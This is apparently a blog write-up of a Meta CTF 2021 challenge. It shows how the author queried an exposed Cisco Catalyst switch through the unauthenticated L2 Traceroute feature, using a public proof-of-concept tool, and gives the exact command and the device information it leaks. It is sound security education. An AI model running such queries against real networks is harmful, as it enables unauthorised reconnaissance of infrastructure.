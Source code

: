 ```yaml
---
layout: post
title:  They call me TracerT
parent: Meta CTF 2021
---
```


## They call me TracerT

TLDR: You can abuse the Cisco proprietary L2-Traceroute feature.

### Challenge Description

**Points:** 550

**Solves:** 5

**Fastest Solve:** Team Thirst (us)

>One of the things I find fascinating is the sheer amount of information that $random_devices expose to the network, all without authentication. For example, take Windows RPC. Did you know that you can even sometimes determine if an AV is running on a remote host, all based on unauthenticated querying against RPC?
>
>On a related note, we, ummmm, accidentally exposed a Cisco Catalyst switch to the internet in its default configuration (minus disabling ports that are unrelated to solving this problem). It's located at tracert.cg21.mctf.io. The flag is the hostname of the switch. Good luck :)

### Solution

Since we know it's a Cisco Catalyst Switch, we can search through Ciscos Security Advisories. 
Searching for the term "Traceroute"  yields an [informational report](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-20190925-l2-traceroute) about the proprietary L2 Traceroute feature.
This lets Cisco Switches find other Cisco Switches in the same (OSI) Layer 2 domain (same subnet, usually constrained in a VLAN).

L2 Traceroute builds a local database with all sorts of fun information about other such capable switches in the network. Awesome for maintanance and troubleshooting, but should ***never*** be accessible from outside!

The report mentions the researcher Chris Marget, who has a [Github Repo](https://github.com/chrismarget/cisco-l2t) with a proof of concept.

Before you run his code, you need the IP of the switch:

{% highlight bash %}
soeren@arch:~ $ dig tracert.cg21.mctf.io +short
34.207.70.151
{% endhighlight %}

Afterwards you can run his code like so:

{% highlight bash %}
soeren@arch:~/repos/cisco-l2t $ go run cmd/l2t_ss/main.go -t 1 \
-a 1:ffff.ffff.ffff -a 2:ffff.ffff.ffff \
-a 3:100 -a 14:0.0.0.0 34.207.70.151

Received: L2T_REPLY_DST (3) with 4 attributes (51 bytes)
   4 L2_ATTR_DEV_NAME     thats-tracer-t-to-u
   5 L2_ATTR_DEV_TYPE     WS-C2950T-24
   6 L2_ATTR_DEV_IP       192.168.28.125
  15 L2_ATTR_REPLY_STATUS Status unknown (3)
{% endhighlight %}

And there you have it, the flag is **thats-tracer-t-to-u** for 550 Points.